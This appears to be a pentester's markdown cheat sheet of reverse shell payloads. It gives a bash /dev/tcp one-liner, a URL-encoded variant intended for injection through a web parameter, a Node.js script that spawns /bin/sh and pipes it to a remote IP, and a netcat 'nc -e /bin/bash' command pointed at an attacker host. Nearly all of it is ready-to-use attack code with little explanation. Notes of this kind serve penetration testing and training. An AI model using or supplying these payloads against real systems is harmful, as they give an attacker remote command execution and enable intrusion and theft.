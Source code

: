# Bash

````bash
bash -i >& /dev/tcp/10.0.0.0/8080 0>&1
````

Or you can use this that is url encode
````bash
bash -c "bash -i >%26 /dev/tcp/172.21.7.214/53 0>%261"
````

Remember you have to URL encode the **&** because this cause conflict

------

# Node.js

````js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "192.168.33.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
````
https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell

-------

# Netcat

-------
Using of [[Tools/Netcat|Netcat]]

````bash
nc -e /bin/bash IPAttacker PORT
````

# Monkey pentester
You have a cheat sheet in [pentestmonkey.ney](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

-------
# Tags

#bash #node #netcat #nc #reverseShell #shell

----------

